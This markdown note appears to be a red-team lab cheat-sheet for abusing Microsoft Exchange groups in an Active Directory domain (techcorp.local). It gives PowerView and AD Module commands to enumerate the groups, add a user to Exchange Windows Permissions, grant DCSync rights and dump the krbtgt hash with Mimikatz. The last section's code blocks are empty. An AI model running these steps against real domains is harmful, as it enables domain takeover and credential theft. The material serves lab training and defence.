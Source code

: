# Cross Trust Attacks - MS Exchange

- [Cross Trust Attacks - MS Exchange](#cross-trust-attacks---ms-exchange)
  - [MS Exchange](#ms-exchange)
  - [MS Exchange Interesting Groups](#ms-exchange-interesting-groups)
  - [Abusing MS Organization Manager](#abusing-ms-organization-manager)
  - [Abusing Exchange Trusted Subsystem](#abusing-exchange-trusted-subsystem)

---

![picture 1](images/6eed2a6e13a4dfb976961fb1ef836d3b9d8b8f6d184a7a0bcfc73a8c01367cdf.png)  

<br/>

## MS Exchange

| Group Name | Abusable Permissions | Members |
|--|--|--|
| Exchange Trusted subsystem | Can modify DACL of DNSAdmins* and other groups** which inherit DACL from domain object and are not protected by AdminSDHolder (Can set permissions like ability to add members etc.)<br/><br/>Member of local administrators on exchange servers | Exchange Server computers are member of this group (not the Exchange Servers group) |
| Exchange Windows Permissions | Write DACL on domain object** (Can set permissions on the domain object which can be used for DCSync and more attacks).<br/><br/>Can add members to DNSAdmins | Exchange Trusted Subsystem |
| Organization management | Has Full Control over Exchange Windows Permissions group. <br/><br/>Member of local administrators on exchange servers. | Default Domain Admin user |

Note:
*Removed in Exchange 2019 CU2 - 'There is a deny ACE on the DNS admins group along with removing the right for Exchange to assign SPNs.'
- https://blogs.technet.microsoft.com/rmilne/2019/06/18/exchange-2019-cu2-released<br/>
**Removed in Exchange 2019 CU1
- https://support.microsoft.com/en-us/help/4490059/using-shared-permissions-model-to-run-exchange-server

<br/>

## MS Exchange Interesting Groups

Enumerate if we have `exchange groups` in `techcorp.local` domain:

- PowerView

```
Get-DomainGroup *exchange* -Domain techcorp.local
```

- AD Module:

```
Get-ADGroup -Filter 'Name -like "*exchange*"' -Server techcorp.local
```

<br/>

Enumerate `Organization Management Group` as well:

- PowerView

```
Get-DomainGroupMember "Organization Management" -Domain techcorp.local
```

- AD Module

```
Get-ADGroupMember -Identity "Organization Management" -Server techcorp.local
```

<br/>

## Abusing MS Organization Manager

If we have privileges of '`exchange manager`', who is a member of the **Organization Management**, we can add a user to the 'Exchange Windows Permissions' group.

- PowerView

```
$user = Get-DomainUser -Identity studentuser64
```

```
$group = Get-DomainGroup -Identity 'Exchange Windows Permissions' -Domain techcorp.local
```

```
Add-DomainGroupMember -Identity $group -Members $user -Verbose
```

- AD Module

```
$user = Get-ADUser -Identity studentuser64
```

```
$group = Get-ADGroup -Identity 'Exchange Windows Permissions' -Server techcorp.local
```

```
Add-ADGroupMember -Identity $group -Members $user -Verbose
```

<br/>

Now, as `studentuser64` (new session and after some time), we can simply add the permissions to run **DCSync**. This holds true for any user who is a part of **Enterprise Windows Permissions group**:

- PowerView_dev

```
Add-DomainObjectAcl -TargetIdentity 'DC=techcorp,DC=local' -PrincipalIdentity 'us\studentuser64' -Rights DCSync -Verbose
```

Then execute DCSync:

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:techcorp\krbtgt /domain:techcorp.local"'
```

<br/>

## Abusing Exchange Trusted Subsystem

Enumerate membership of Exchange Trusted Subsystem in `techcorp.local`:

- PowerView

```
Get-DomainGroupMember "Exchange Trusted Subsystem" -Domain techcorp.local
```

- AD Module

```
Get-ADGroupMember -Identity "Exchange Trusted Subsystem" -Server techcorp.local
```

<br/>

If we have privileges of '`exchange user`', who is a member of the `Exchange Trusted Subsystem`, we can add any user to the `DNSAdmins` group:

- PowerView_dev

```

```

- AD Module

```

```

<br/>

